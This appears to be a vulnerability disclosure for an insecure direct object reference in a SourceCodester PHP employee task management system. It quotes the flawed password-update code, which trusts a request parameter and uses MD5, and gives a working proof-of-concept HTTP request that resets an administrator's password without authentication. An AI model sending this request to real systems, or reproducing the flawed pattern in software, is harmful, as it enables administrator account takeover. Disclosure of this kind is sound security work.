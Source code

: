 # SOURCECODESTER / Employee Task Management System - IDOR update-admin.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)

## Vendor Homepage:
> https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

## Affected Component
> /update-admin.php

## Code
### update-admin.php
```php
if(isset($_POST['btn_user_password'])){

    $obj_admin->update_user_password($_POST,$admin_id);
}
```
### classes/admin_class.php
```php
public function update_user_password($data, $id){
		$employee_password  = $this->test_form_input_data(md5($data['employee_password']));
		
		try{
			$update_user_password = $this->db->prepare("UPDATE tbl_admin SET password = :x WHERE user_id = :id ");

			$update_user_password->bindparam(':x', $employee_password);
			$update_user_password->bindparam(':id', $id);
			
			$update_user_password->execute();

			$_SESSION['update_user_pass'] = 'update_user_pass';

			header('Location: admin-manage-user.php');
		}catch (PDOException $e) {
			echo $e->getMessage();
		}
	}
```

## Proof of Concept
**HTTP Request Example**
>admin_id parameter is vulnerable to IDOR
>Note: Attacker can use idor without authentication in burp by not following the redirection
``` http request
POST /update-employee.php?admin_id=1 HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Research-By: NoChizPlz

employee_password=NoChizPlz&btn_user_password=
```

## Screenshot



